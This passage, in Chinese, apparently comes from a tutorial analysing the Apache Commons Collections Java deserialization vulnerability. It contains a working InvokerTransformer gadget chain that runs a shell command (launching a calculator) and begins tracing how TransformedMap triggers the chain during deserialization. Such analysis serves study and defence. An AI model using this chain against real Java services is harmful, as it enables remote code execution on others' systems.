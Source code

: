 `iConstant`为类构造函数的传入参数，如类名所示，该函数的作用就是将它直接返回。

#### 命令执行调用链

综上所述，通过如下代码构造执行shell命令的调用链：

```java
public static Transformer generate_chain() {
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
            new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
        };
    Transformer transformedChain = new ChainedTransformer(transformers);

    return transformedChain;
}
```

直接对该函数的返回值调用`transform(null)`方法，能够直接执行shell命令，弹出计算器。

至此，shell命令执行代码链构造完成。

### 寻找反序列化时的触发点

下一步的任务是寻找对象在反序列化时，会调用`Transformer`类对象的`transform`函数的代码。

JAVA的序列化结果是以`ACED 0005`开头的二进制串，在反序列化的时候会调用对象的`readObject`函数，具体的JAVA反序列化的知识在此不再赘述。

寻找反序列化触发点的关键是：寻找在对象的`readObject`函数中能够直接或间接调用`transform`函数的情况。一般来说，不会有在`readObject`函数中直接调用`transform`函数的情形，需要寻找间接调用的情形（即在`readObject`函数所调用的函数中直接或间接调用了`transform`函数的情形）。

具体的方法可以是，从直接寻找调用了`transfrom`函数的方法开始，根据函数调用关系分析回溯，看是否能形成一个从`readObject`函数到`transform`函数的调用链条。

下文针对`TransformedMap`和`LazyMap`两个类中的反序列化漏洞触发情景进行分析和测试。

> 需要注意的是，如果使用Debug模式对程序进行分析调试，由于调试器会提前计算变量值，所以可能在程序执行到实际的漏洞触发代码前，shell指令就已经被执行。

#### TransformedMap 反序列化漏洞分析与测试

如上所述，接下来的目标是寻找在反序列化过程中能够调用`transform`的情境，以在反序列过程中执行构造好的命令执行链。

`TransformedMap`中的`checkSetValue`函数调用了`transform`函数，其函数原型如下：

```java
/**
 * Override to transform the value when using <code>setValue</code>.
 * 
 * @param value  the value to transform
 * @return the transformed value
 * @since Commons Collections 3.1
 */ 
protected Object checkSetValue(Object value) {         
    return valueTransformer.transform(value);
}
```
